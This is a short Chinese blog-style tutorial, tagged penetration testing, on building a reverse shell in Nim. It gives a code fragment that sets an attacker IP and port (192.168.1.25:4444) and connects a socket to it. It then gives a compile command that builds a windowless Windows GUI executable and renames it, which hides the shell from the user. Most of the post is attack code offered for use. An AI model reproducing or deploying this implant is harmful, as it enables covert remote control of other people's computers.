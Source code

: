 ```yaml
---
title: Nim入门
date: 2024-01-13 20:29:00
tags: 渗透测试
mathjax: true
---
```


# Nim入门

## 配置

按照实际情况配置IP及端口，保存文件为nimshell.nim。

```
var
    targetIP="192.168.1.25"
    targetPort="4444"
let
    exitMessage="Exiting.."
    changeDirectoryCommand="cd"
    defaultDirectory="C:\\"
try:
    socket.connect(targetIP,Port(parseInt(targetPort)))
```

## 编译

```bash
nim c -d:mingw --app:gui nimshell.nim && mv nimshell.exe myshell.exe
```
